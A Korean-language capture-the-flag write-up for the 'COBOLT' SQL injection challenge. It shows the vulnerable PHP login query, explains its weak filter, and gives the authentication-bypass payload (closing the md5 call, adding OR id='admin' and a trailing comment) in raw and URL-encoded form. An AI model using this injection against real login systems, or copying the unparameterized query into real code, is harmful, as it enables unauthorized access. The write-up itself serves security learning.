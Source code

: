 # COBOLT

## Problem
```php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')`
	- 파라미터로 `id`와 `pw`가 넘겨진다.
	- `pw`는 `md5()`로 암호화한다.
* `if($result['id'] == 'admin') solve("cobolt");`
	- 쿼리문의 결과의 `id`가 `admin`이 나타나야 통과한다.
	
## Solution
* 걸러지지 않는 탈출문자(`'`)와 `AND`, `OR` 연산자 우선순위의 차이, 그리고 주석처리를 이용한다.
	- `?id=admin&pw=') or id='admin' -- `
	- `?id=admin&pw=%27)%20or%20id=%27admin%27%20--%20` 
	- 맨 뒤에도 반드시 띄어쓰기가 들어가야 한다. 띄어쓰기가 URL Encoded 된 `%20`을 넣어줘야 주석 처리가 잘 된다.
	- 쿼리가 `select id from prob_cobolt where id='admin' and pw=md5('') or id='admin' -- ')`와 같이 정상적으로 처리된다.